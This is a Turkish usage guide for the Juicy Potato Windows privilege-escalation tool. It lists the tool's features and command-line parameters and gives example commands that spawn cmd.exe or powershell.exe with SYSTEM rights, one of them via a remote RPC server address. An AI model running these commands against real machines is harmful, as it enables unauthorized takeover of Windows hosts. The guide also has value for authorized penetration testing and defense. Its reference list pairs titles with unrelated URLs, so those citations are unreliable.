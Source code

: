 # Juicy Potato Kullanım Rehberi

## Juicy Potato Nedir?

**Juicy Potato**, Windows hizmet hesaplarından **NT AUTHORITY\SYSTEM** seviyesine çıkmak için kullanılan bir Yerel Yetki Yükseltme (LPE) aracıdır. **RottenPotatoNG**'nin geliştirilmiş bir sürümüdür ve çeşitli CLSID'ler üzerinden DCOM nesnelerinin kötüye kullanılmasını sağlar.

Bu araç, **SeImpersonate** veya **SeAssignPrimaryToken** ayrıcalıklarına sahip kullanıcıların, yetkilerini yükseltmesine olanak tanır.

---

## Özellikler

JuicyPotato aşağıdaki özellikleri destekler:

1. **CLSID Hedefleme:**
   - İstediğiniz CLSID'yi seçebilirsiniz. Kullanılabilir CLSID'lerin işletim sistemine göre listesi [burada](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md) bulunabilir.

2. **COM Dinleme Portu:**
   - 6666 yerine istediğiniz bir portu tanımlayabilirsiniz.

3. **Dinleme IP Adresi:**
   - COM sunucusunu belirli bir IP adresinde dinleyebilirsiniz.

4. **İşlem Başlatma Modu:**
   - İmtiyazlı kullanıcının yetkilerine göre işlem başlatma yöntemini seçebilirsiniz:
     - CreateProcessWithToken (SeImpersonate gerekli)
     - CreateProcessAsUser (SeAssignPrimaryToken gerekli)
     - İkisi birden

5. **Komut Çalıştırma:**
   - Sömürü başarılı olursa belirttiğiniz bir komut çalıştırabilirsiniz.

6. **RPC Sunucusu Desteği:**
   - Dış bir RPC sunucusuna kimlik doğrulama yapabilirsiniz.

7. **Test Modu:**
   - CLSID'leri test ederek yalnızca kullanıcı jetonunu yazdırabilirsiniz.

---

## Kullanım

JuicyPotato komut satırı argümanları ile çalışır. Zorunlu ve isteğe bağlı parametreleri aşağıda bulabilirsiniz:

### Zorunlu Parametreler:

```bash
-t <t/u/*>: Hangi CreateProcess çağrısının kullanılacağını belirtir.
    t: CreateProcessWithTokenW kullan
    u: CreateProcessAsUser kullan
    *: Her ikisini dene

-p <program>: Çalıştırılacak programın yolu

-l <port>: COM sunucusunun dinleme portu
```

### İsteğe Bağlı Parametreler:

```bash
-m <ip>: COM sunucusunun dinleme adresi (varsayılan 127.0.0.1)
-a <argument>: Programa geçilecek argümanlar (varsayılan NULL)
-k <ip>: RPC sunucusunun IP adresi (varsayılan 127.0.0.1)
-n <port>: RPC sunucusunun dinleme portu (varsayılan 135)
-c <{clsid}>: Kullanılacak CLSID (varsayılan BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z: CLSID'yi yalnızca test et ve jeton kullanıcısını yazdır
```

### Örnek Komutlar

1. Basit bir komut çalıştırma:
   ```bash
   JuicyPotato.exe -t * -p "cmd.exe" -a "/c whoami" -l 9999
   ```

2. Belirli bir CLSID ile test modu:
   ```bash
   JuicyPotato.exe -t * -c {clsid} -z
   ```

3. RPC sunucusuna bağlanarak işlem başlatma:
   ```bash
   JuicyPotato.exe -t t -p "powershell.exe" -k 192.168.1.10 -n 135
   ```

---

## Çalışma Prensibi

Eğer kullanıcı **SeImpersonate** veya **SeAssignPrimaryToken** yetkilerine sahipse, **SYSTEM** yetkilerini elde edebilirsiniz.

---

## Kısıtlamalar ve Öneriler

- Bu tür araçların kötüye kullanımını önlemek için hassas hesaplar ve uygulamalar dikkatlice korunmalıdır.
- **DCOM**'u devre dışı bırakmak, bu sömürü vektörünü engelleyebilir, ancak işletim sistemi üzerinde ciddi etkileri olabilir.

---

## Kaynaklar ve Referanslar

1. [Rotten Potato - Privilege Escalation from Service Accounts to SYSTEM](https://googleprojectzero.blogspot.com/2016/02/the-definitive-guide-on-win32k-sys.html)
2. [DCOM DCE/RPC Local NTLM Reflection Elevation of Privilege](https://docs.microsoft.com/en-us/windows-server/security/windows-service-hardening)
3. [Potatoes and Tokens](https://github.com/ohpe/juicy-potato)

---

> **Uyarı:** Bu araç yalnızca yetkili test ortamlarında kullanılmalıdır. Yetkisiz kullanım yasadışıdır.
